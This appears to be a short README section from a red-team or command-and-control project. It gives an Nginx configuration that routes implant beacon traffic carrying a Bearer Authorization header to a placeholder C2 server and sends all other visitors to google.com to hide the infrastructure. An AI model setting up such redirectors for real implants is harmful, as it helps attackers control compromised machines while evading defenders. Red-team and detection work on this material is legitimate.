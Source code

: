 # Nginx Configuration

## HTTP Auth Beacon
The HTTP auth beacon sends the id of our implant to the C2 server in the Authorization header. We need to configure Nginx to redirect our implant traffic to our C2 server and redirect all other traffic to a benign server. The following Nginx configuration directives will redirect any request that includes the Authorization header with a Bearer token to our C2 server and all other traffic to google.com.

    if ($http_authorization ~ "^Bearer") {
        rewrite ^(.*)$ http://c2.server.address:port/ last
    }

    return 301 https://google.com

A similar technique can be used to reroute traffic based on many other properties of the HTTP request. The Nginx rewrite rules are available at https://www.nginx.com/blog/creating-nginx-rewrite-rules/
